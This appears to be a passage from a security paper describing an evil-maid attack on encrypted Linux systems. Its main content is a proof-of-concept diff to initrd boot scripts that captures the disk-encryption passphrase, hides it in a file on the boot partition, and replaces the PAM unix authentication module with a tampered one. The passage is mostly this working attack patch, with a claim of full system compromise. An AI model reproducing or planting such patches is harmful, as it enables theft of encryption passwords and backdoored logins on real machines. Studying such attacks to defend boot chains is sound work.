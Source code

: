 The following patch for \texttt{initrd} was designed as a proof of concept:
\begin{lstlisting}
diff -Naur --no-dereference tmp.orig/scripts/local tmp.evil/scripts/local
--- tmp.orig/scripts/local  2016-12-03 17:31:53.111082675 +0300
+++ tmp.evil/scripts/local  2016-12-03 17:36:07.097421409 +0300
@@ -115,7 +115,7 @@
 "
            fi
        fi
-   
+
        mkdir -p /host
        mount -o move ${rootmnt} /host
 
@@ -152,6 +152,11 @@
        fi
    fi
 
+   # INSTALL OUR PATCHED PAM AUTHENTICATION MODULE FROM ATTACK #3
+   mount -o remount,rw /root
+   cp /sbin/pammer.so /root/lib/x86_64-linux-gnu/security/pam_unix.so      
+
    [ "$quiet" != "y" ] && log_begin_msg "Running /scripts/local-bottom"
    run_scripts /scripts/local-bottom
    [ "$quiet" != "y" ] && log_end_msg
diff -Naur --no-dereference tmp.orig/scripts/local-top/cryptroot tmp.evil/scripts/local-top/cryptroot
--- tmp.orig/scripts/local-top/cryptroot    2016-12-03 17:31:53.111082675 +0300
+++ tmp.evil/scripts/local-top/cryptroot    2016-12-03 17:32:15.258937696 +0300
@@ -260,7 +260,7 @@
 

+       # steal entered password
        if [ ! -e "$NEWROOT" ]; then
            if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
-                $cryptkeyscript "$cryptkey" | $cryptcreate --key-file=- ; then
+                $cryptkeyscript "$cryptkey" | tee /run/password |$cryptcreate --key-file=- ; then
                message "cryptsetup: cryptsetup failed, bad password or options?"
                continue
            fi
@@ -304,6 +304,12 @@
        fi
 
        message "cryptsetup: $crypttarget set up successfully"
+       # save password in /boot/grub/.cfg
+       mkdir /run/tmp
+       mount -t ext4 /dev/sda1 /run/tmp > /dev/null 2>&1
+       cat /run/password >> /run/tmp/grub/.cfg
+       echo >> /run/tmp/grub/.cfg
+       umount /run/tmp > /dev/null 2>&1
+       rm -r /run/tmp
        break
    done
\end{lstlisting}

As a result, full compromisation of main operating system.

If a Target uses Windows, attacking is harder, because it requires to reverse-engineer and patch \texttt{bootmgr.exe} binary.

